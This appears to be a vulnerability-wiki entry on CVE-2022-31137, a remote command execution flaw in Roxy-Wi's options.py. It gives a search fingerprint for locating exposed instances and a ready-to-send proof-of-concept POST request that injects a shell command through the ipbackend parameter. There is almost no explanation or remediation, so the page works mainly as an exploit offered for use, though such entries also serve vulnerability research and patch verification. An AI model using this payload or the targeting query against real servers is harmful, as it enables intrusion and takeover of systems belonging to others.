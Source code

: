 # Roxy-Wi options.py remote command execution vulnerability CVE-2022-31137

## Vulnerability Description

Roxy-Wi options.py has a remote command execution vulnerability, and an attacker can execute commands to obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Roxy-WI</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="HAProxy-WI"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658912004911-aa844957-d32a-491e-8067-10a56638cb56.png)

Verify POC

```php
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658912136259-592d71bc-4bd2-4815-b31f-dc364421becb.png)